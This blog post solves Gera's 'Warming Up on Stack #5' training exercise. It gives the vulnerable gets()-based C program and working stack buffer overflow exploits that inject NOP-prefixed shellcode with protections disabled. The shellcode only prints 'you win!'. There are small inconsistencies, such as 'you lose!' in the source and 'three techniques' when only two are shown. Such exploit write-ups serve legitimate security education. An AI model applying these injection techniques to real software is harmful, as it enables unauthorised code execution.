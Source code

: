 Gera's Warming Up on Stack #5 - Solutions
=========================================
date: 05/Jan/2013
summary: Solutions for Gera's Warming up on Stack #5 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 5 in the series of posts I started back in August
2012 with an aim to provide an analysis and possible solutions for the
vulnerable programs provided by
[Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte)
at his [Insecure
Programming](http://community.corest.com/%7Egera/InsecureProgramming/)
by example page.

This post follows the [Gera's Warming Up on Stack #4 -
Solutions](/2013/geras-wuos-stack4-solutions.html) post and if you have
not read it, I request you to please do so. Most of the concepts are
very similar and since they have been already talked about, I'll not be
reiterating them here.

Let's get started. Below is the source for the vulnerable
[stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html)
program:

```c
/* stack5.c                                     *
 * specially crafted to feed your brain by gera */
int main() {
    int cookie;
    char buf[80];
    printf(*buf: %08x cookie: %08x\n*, &buf, &cookie);
    gets(buf);
    if (cookie == 0x000a0d00)
        printf(*you lose!\n*);
}
```

The above program too accepts user-input through the gets function and
then looks for a specific value in a local variable named `cookie`. If
this value is equal to a certain pre-defined constant, `printf` function
is used to show a `you win!` message to the user. There is no direct
means of modifying the content of the `cookie` variable. The `gets`
function will keep reading from the stdin device until it encounters a
newline or EoF character. Since this reading loop fails to honor the
size of the destination buffer, a classic buffer overflow vulnerability
is introduced in the program. Our aim is to leverage this vulnerability
and exploit this program so that it print the `you win!` message to
stdout.

Here are a few observations that could be made by looking at the source
of the program:

1.  Since it is defined prior to `buf`, the `cookie` would be placed at
    a higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents
4.  Interestingly, the `you win!` statement is missing from this
    example. As such, gaining control over `cookie` or EIP alone won't
    help with the completion of this example.

Stack layout for
[stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html)
is identical to
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
as already outlined in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post.

Here are a few solutions I could think of to get the `you win!` message
printed:

-   Solution #1: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Here's a brief description of the test system:

```shell
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Inject a NOP-prefixed printf(you win!) shellcode and overwrite EIP with its address
-------------------------------------------------------------------------------------------------

Here's the GCC commandline to prepare
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
for Solution #1:

```shell
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack5 stack5.c 2>/dev/null ; readelf -l stack5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to
exploit
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post could be reused
here:

```shell
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
# ./stack5
buf: bffff4c4 ``cookie``: bffff514
#
# perl -e 'print *\x90*x51 . *\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21* . *\xc4\xf4\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!#
```

Solution #2: Inject a NOP-prefixed printf(you win!) shellcode through an environment var and overwrite EIP with its address
----------------------------------------------------------------------------------------------------------------------------

Lets get straight to the exploitation:

```shell
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack5
[+] WINCODE: 0xbffff726
#
# perl -e 'print *\x90*x88 . *\x26\xf7\xff\xbf*' | ./stack5
buf: bffff4c4 ``cookie``: bffff514
you win!
```

So, we have now successfully exploited the
[stack5.c](http://community.corest.com/%7Egera/InsecureProgramming/stack5.html)
program through three different techniques. Depending on the motive of
your exploitation attempt, other techniques could be devised and some,
mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They
just serve the purpose of understanding how exploits used to work before
mitigation features were introduced in modern systems. But, as with
everything else, understanding basics is really important. As mitigation
features mature, exploitation techniques become increasingly complex.
And to understand those, we need to build upon the solid foundation of
basic concepts, like those discussed on this and other blogs.

This was the last post in the *Geras' Warming Up on Stack* series. I
plan to start another series for *Gera's Advanced Buffer Overflows*
examples. Stay tuned for further updates.
